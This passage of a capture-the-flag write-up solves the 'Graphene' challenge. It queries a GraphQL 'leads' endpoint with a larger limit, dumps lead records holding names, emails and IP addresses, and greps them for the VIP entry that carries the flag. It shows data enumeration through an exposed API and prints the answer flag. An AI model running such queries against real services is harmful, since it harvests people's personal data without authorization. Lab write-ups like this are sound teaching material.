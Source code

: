 ```graphql
    },
    "isDeprecated":false,
    "deprecationReason":null
}
```

So we were missing the `limit` parameter. Let's try adding it:

```graphql
# Request:
{
    leads(limit:1000) {
        id
        firstName
        lastName
        email
        gender
        ipAddress
        isVip
    }
}
```

We get 100 leads of the form:
```graphql
      {
         "id":"1",
         "firstName":"Zacharie",
         "lastName":"Austins",
         "email":"zaustins0@baidu.com",
         "gender":"Male",
         "ipAddress":"211.21.0.141",
         "isVip":false
      },
```

The challenge description mentioned VIPs, let's check if who is a VIP:

```console
root@kali:/media/sf_CTFs/appsec/Graphene# cat leads.txt | grep '"isVip":true' -A 1 -B 7
      {
         "id":"62",
         "firstName":"Claiborne",
         "lastName":"Wrathall",
         "email":"AppSec-IL{c4R8ON-15-9r4phene}",
         "gender":"Male",
         "ipAddress":"135.39.36.56",
         "isVip":true
      },
```

We got the flag.